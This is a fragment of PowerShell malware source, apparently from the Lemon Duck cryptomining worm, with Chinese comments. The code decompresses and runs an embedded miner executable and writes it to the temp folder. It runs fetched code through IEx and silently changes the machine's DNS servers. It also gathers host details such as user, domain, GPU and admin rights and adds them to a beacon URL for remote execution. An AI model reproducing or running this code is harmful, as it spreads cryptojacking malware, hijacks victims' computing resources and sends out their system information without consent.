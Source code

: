 ```powershell
		# 	else{
		# 		$noup=1
		# 	}
		# }
		# if($noup){
		# 	$con=$con_;
		# 	$ifmd5=$md5_
		# }

		# ### 以下是gpa函数生成的代码
		# for($i=0;$i -lt $con.count-1;$i+=1){
		# 	if($con[$i] -eq 0x0a){
		# 		break
		# 	}
		# }
		# # 以0x0A截断文件 ，执行前半部分，定义test1函数 
		# iex(-join[char[]]$con[0..$i]);

		# $bin=(New-Object IO.BinaryReader(New-Object System.IO.Compression.GzipStream (New-Object System.IO.MemoryStream(,$con[($i+1)..($con.count)])), ([IO.Compression.CompressionMode]::Decompress))).ReadBytes(10000000);
		# $bin_=$bin.Clone();
		# test1 -PEBytes $bin;
		# $mep=$env:tmp+'\m6.bin.exe';
		# # 在挖矿程序后追加随机字节，保存
		# [System.IO.File]::WriteAllBytes($mep,$bin_+((1..127)|Get-Random -Count 100));
		# # 运行上一步生成的程序
		# start-process -FilePath $mep
		stp ((gcf $code2 $mmd5 $mbin)+(gpa $mbin))
	}
}
if(($isn -or $isa) -and $is64){
	$code3=gcode "Mng"
	# try{
	# 	$localMng=$flase;
	# 	New-Object Threading.Mutex ($true,'Global\eLocalMng',[ref]$localMng)
	# }catch{ }
	IEx $code3
	if($localMng){
		stp ((gcf $code3 $mgmd5 $mgbin)+(gpa $mgbin))
	}
}
# 修改DNS
try{
	(get-wmiobject -class win32_networkadapterconfiguration -filter ipenabled=true).SetDNSServerSearchOrder(@('8.8.8.8','9.9.9.9'))
}catch{}

# 携带信息：
# 系统，系统位数，用户，域，磁盘，显卡，内存，管理员权限，本地蠕虫攻击Payload，本地xmrigPayload，xmrig版本，矿池地址，算力，开机时间，上传时间
$params+="&"+(@($os,[Int]$is64,$user,$domain,$drive,$card,$mem,[Int]$permit,($lifmd5[0..5]-join""),($lmmd5[0..5]-join""),$mv,$mip,$mhr,$uptime,$timestamp,"0.1")-join"&")
# 进行RSA签名校验后执行
function SIEX {  
	Param(
	[string]$url
	)
	try{
		$webclient = New-Object Net.WebClient
		$finalurl = "$url"+"?"+"$params"
		try{
			$webclient.Headers.add("User-Agent","Lemon-Duck-"+$Lemon_Duck.replace('\','-'))
		} catch{}
```